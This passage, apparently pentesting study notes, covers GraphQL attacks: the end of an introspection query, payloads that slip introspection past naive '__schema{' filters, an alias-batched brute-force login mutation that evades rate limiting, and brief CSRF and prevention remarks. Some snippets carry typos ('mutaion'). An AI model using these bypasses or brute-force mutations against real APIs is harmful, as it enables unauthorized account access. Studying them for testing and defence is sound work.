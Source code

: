     }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
**Note: query doesn't run, try removing the onOperation, onFragment, and onField directives from the query structure.**


## Bypassing GraphQL introspection defenses
if the developer has only excluded `__schema{`, then the below introspection query would not be excluded.

    #Introspection query with newline
    {
        "query": "query{__schema
        {queryType{name}}}"
    }

- Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.
URL encoded paraeter
     
    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
## Bypassing rate limiting using aliases
Ordinarily, GraphQL objects can't contain multiple properties with the same name. Aliases enable you to bypass this restriction by explicitly naming the properties you want the API to return. You can use aliases to return multiple instances of the same type of object in one request

    example alies

    mutaion {bruteforce0:login(input:{password: "123456", username: "carlos"}) {
            token
            success
    }}
## GraphQL CSRF
- Cross-site request forgery (CSRF) vulnerabilities enable an attacker to induce users to perform actions that they do not intend to perform. 
## Preventing GraphQL attacks
- disable introspection on it. 
- you should review the API's schema to make sure that it does not expose unintended fields to the public